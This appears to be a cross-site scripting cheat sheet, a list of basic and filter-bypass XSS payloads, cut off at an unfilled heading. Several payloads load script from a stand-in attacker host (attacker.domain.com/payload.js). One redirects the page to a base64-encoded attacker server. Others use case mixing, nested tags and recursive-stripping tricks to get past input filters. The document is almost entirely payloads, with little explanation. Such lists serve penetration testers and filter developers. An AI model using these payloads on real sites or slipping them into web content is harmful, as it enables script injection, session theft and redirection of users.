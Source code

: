 ### Basic Payloads

```js
<script SRC=http://attacker.domain.com/payload.js></script>
```

```js
<img SRC="javascript:alert('XSS');">
```

```js
<iframe src="javascript:alert('xss')">
```

```js
<body oninput=javascript:alert(1)><input autofocus>
```

### Filter Bypass Payloads

#### Script Tag Filtering

```js
<SCRiP/**/t><ScRIpT>alert(1)<ScRiP/**/t></ScRip/**/T>
```

```js
<scr<script>ipt>alert(1)</scr<script>ipt>
```

#### Recursive Script Tag Stripping

```js
<SCR<SCRIPTIPT>alert(1)</SCRIPT>
```

```js
<SCR<SCR<SCRIPTIPT>IPT>alert(1)<</SCRIPT>/SCRIPT>
```

#### Script Content Filtering

```js
<SCRIPT>window.location=atob(base64StringOfAttackSVR)</SCRIPT>
```

#### Case Filtering

```js
<IMG SRC=JaVaScRiPt:alert('XSS')>
```

#### Edgecase Filtering

```js
<<script<sscript+SRC="http://attacker.domain/alert.js"></script>
```

#### No Quotes && Semicolon

